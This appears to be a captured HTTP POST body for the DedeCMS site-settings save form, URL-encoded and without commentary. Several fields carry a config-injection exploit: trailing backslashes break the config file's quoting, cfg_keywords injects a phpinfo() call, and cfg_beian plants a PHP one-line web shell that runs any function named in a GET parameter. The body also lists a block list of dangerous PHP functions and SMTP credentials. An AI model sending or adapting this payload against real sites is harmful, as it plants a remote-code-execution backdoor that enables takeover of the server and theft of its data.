     token=07a4d8c45bcf4414f549842405213999&dopost=save&edit___cfg_basehost=http%3A%2F%2Fdedecms.org%3A8016&edit___cfg_indexurl=%2Fuploads&edit___cfg_indexname=%E4%B8%BB%E9%A1%B5&edit___cfg_webname=%E6%88%91%E7%9A%84%E7%BD%91%E7%AB%99%5C&edit___cfg_arcdir=%2Fa&edit___cfg_medias_dir=%2Fuploads&edit___cfg_fck_xhtml=N&edit___cfg_df_style=1&edit___cfg_powerby=1%5C&edit___cfg_keywords=%3Bphpinfo%28%29%3B%2F*&edit___cfg_description=zzz&edit___cfg_beian=%3C%3Fphp+%24a+%3D+%24GLOBALS%5B%22_GET%22%5D%3B+%24b+%3D+%24GLOBALS%5B%22_GET%22%5D%3B+%24a%5B%27test1%27%5D%28%24b%5B%27test2%27%5D%29%3F%3E&edit___cfg_cmspath=%2Fuploads&edit___cfg_cookie_encode=AUyWXtwtdmYTcvH4tIlQrgKlh3rhGO&edit___cfg_backup_dir=backupdata&edit___cfg_adminemail=admin%40dedecms.com&edit___cfg_html_editor=wangEditor&edit___cfg_domain_cookie=&edit___cfg_specnote=6&edit___cfg_list_symbol=+%3E+&edit___cfg_keyword_replace=Y&edit___cfg_multi_site=N&edit___cfg_dede_log=N&edit___cfg_ftp_host=&edit___cfg_ftp_port=21&edit___cfg_ftp_user=&edit___cfg_ftp_pwd=&edit___cfg_ftp_root=%2F&edit___cfg_ftp_mkdir=N&edit___cfg_cli_time=8&edit___cfg_sendmail_bysmtp=Y&edit___cfg_smtp_server=smtp.qq.com&edit___cfg_smtp_port=25&edit___cfg_smtp_usermail=desdev%40vip.qq.com&edit___cfg_smtp_user=desdev&edit___cfg_smtp_password=desdev&edit___cfg_online_type=nps&edit___cfg_upload_switch=Y&edit___cfg_allsearch_limit=1&edit___cfg_rewrite=N&edit___cfg_delete=Y&edit___cfg_typedir_df=Y&edit___cfg_remote_site=N&edit___cfg_title_site=N&edit___cfg_mysql_type=mysql&edit___cfg_timeout_exit=1800&edit___cfg_archives_log=N&edit___cfg_fail_limit=5&edit___cfg_lock_time=3600&edit___cfg_ddimg_width=240&edit___cfg_ddimg_height=180&edit___cfg_imgtype=jpg%7Cgif%7Cpng&edit___cfg_softtype=zip%7Cgz%7Crar%7Ciso%7Cdoc%7Cxsl%7Cppt%7Cwps&edit___cfg_mediatype=swf%7Cmpg%7Cmp3%7Cmp4%7Crm%7Crmvb%7Cwmv%7Cwma%7Cwav%7Cmid%7Cmov&edit___cfg_album_width=800&edit___cfg_album_row=3&edit___cfg_album_col=4&edit___cfg_album_pagesize=12&edit___cfg_album_style=2&edit___cfg_album_ddwidth=200&edit___cfg_max_face=50&edit___cfg_addon_savetype=ymd&edit___cfg_qk_uploadlit=Y&edit___cfg_ddimg_full=N&edit___cfg_ddimg_bgcolor=0&edit___cfg_uplitpic_cut=Y&edit___cfg_album_mark=N&edit___cfg_mb_open=N&edit___cfg_mb_album=Y&edit___cfg_mb_upload=Y&edit___cfg_mb_upload_size=1024&edit___cfg_mb_sendall=Y&edit___cfg_mb_rmdown=Y&edit___cfg_mb_addontype=swf%7Cmpg%7Cmp3%7Cmp4%7Crm%7Crmvb%7Cwmv%7Cwma%7Cwav%7Cmid%7Cmov%7Czip%7Crar%7Cdoc%7Cxsl%7Cppt%7Cwps&edit___cfg_mb_max=500&edit___cfg_mb_notallow=www%2Cbbs%2Cftp%2Cmail%2Cuser%2Cusers%2Cadmin%2Cadministrator&edit___cfg_mb_idmin=3&edit___cfg_mb_pwdmin=3&edit___cfg_mb_pwdtype=32&edit___cfg_md_idurl=N&edit___cfg_mb_rank=10&edit___cfg_md_mailtest=N&edit___cfg_mb_spacesta=-10&edit___cfg_mb_allowncarc=Y&edit___cfg_mb_allowreg=Y&edit___cfg_mb_adminlock=N&edit___cfg_mb_spaceallarc=0&edit___cfg_mb_wnameone=N&edit___cfg_mb_feedcheck=N&edit___cfg_mb_msgischeck=N&edit___cfg_mb_reginfo=Y&edit___cfg_notallowstr=%E9%9D%9E%E5%85%B8%7C%E8%89%BE%E6%BB%8B%E7%97%85%7C%E9%98%B3%E7%97%BF&edit___cfg_replacestr=%E5%A5%B9%E5%A6%88%7C%E5%AE%83%E5%A6%88%7C%E4%BB%96%E5%A6%88%7C%E4%BD%A0%E5%A6%88%7C%E5%8E%BB%E6%AD%BB%7C%E8%B4%B1%E4%BA%BA&edit___cfg_feedbackcheck=N&edit___cfg_feedback_ck=Y&edit___cfg_feedback_time=30&edit___cfg_feedback_numip=30&edit___cfg_vdcode_member=Y&edit___cfg_mb_cktitle=Y&edit___cfg_mb_editday=7&edit___cfg_caicai_sub=2&edit___cfg_caicai_add=2&edit___cfg_feedback_add=5&edit___cfg_feedback_sub=5&edit___cfg_feedback_forbid=N&edit___cfg_sendarc_scores=10&edit___cfg_sendfb_scores=3&edit___cfg_face_adds=10&edit___cfg_moreinfo_adds=20&edit___cfg_money_scores=50&edit___cfg_login_adds=2&edit___cfg_userad_adds=10&edit___cfg_feedback_guest=N&edit___cfg_arcsptitle=N&edit___cfg_arcautosp=N&edit___cfg_arcautosp_size=5&edit___cfg_list_son=Y&edit___cfg_keyword_like=N&edit___cfg_index_max=10000&edit___cfg_index_cache=86400&edit___cfg_tplcache=Y&edit___cfg_tplcache_dir=%2Fdata%2Ftplcache&edit___cfg_makesign_cache=N&edit___cfg_search_max=50000&edit___cfg_search_maxrc=300&edit___cfg_search_time=3&edit___cfg_need_typeid2=Y&edit___cfg_cache_type=id&edit___cfg_makeindex=N&edit___cfg_make_andcat=N&edit___cfg_make_prenext=Y&edit___cfg_puccache_time=36000&edit___cfg_memcache_enable=N&edit___cfg_memcache_mc_defa=memcache%3A%2F%2F127.0.0.1%3A11211%2Fdefault127&edit___cfg_memcache_mc_oth=&edit___cfg_digg_update=0&edit___cfg_disable_funs=phpinfo%2Ceval%2Cassert%2Cexec%2Cpassthru%2Cshell_exec%2Csystem%2Cproc_open%2Cpopen%2Ccurl_exec%2Ccurl_multi_exec%2Cparse_ini_file%2Cshow_source%2Cfile_put_contents%2Cfsockopen%2Cfopen%2Cfwrite%2Cpreg_replace&edit___cfg_disable_tags=php&edit___cfg_auot_description=240&edit___cfg_rm_remote=Y&edit___cfg_arc_dellink=N&edit___cfg_arc_autopic=Y&edit___cfg_arc_autokeyword=Y&edit___cfg_title_maxlen=60&edit___cfg_check_title=Y&edit___cfg_jump_once=Y&edit___cfg_task_pwd=&edit___cfg_addon_domainbind=N&edit___cfg_addon_domain=&edit___cfg_df_dutyadmin=admin&edit___cfg_arc_dirname=Y&edit___cfg_arc_click=-1&edit___cfg_replace_num=2&edit___cfg_replace_total=0&edit___cfg_replace_sort=1&edit___cfg_sphinx_article=N&edit___cfg_sphinx_host=localhost&edit___cfg_sphinx_port=9312&edit___cfg_cross_sectypeid=N&edit___cfg_baidunews_limit=100&edit___cfg_updateperi=15&imageField.x=42&imageField.y=8
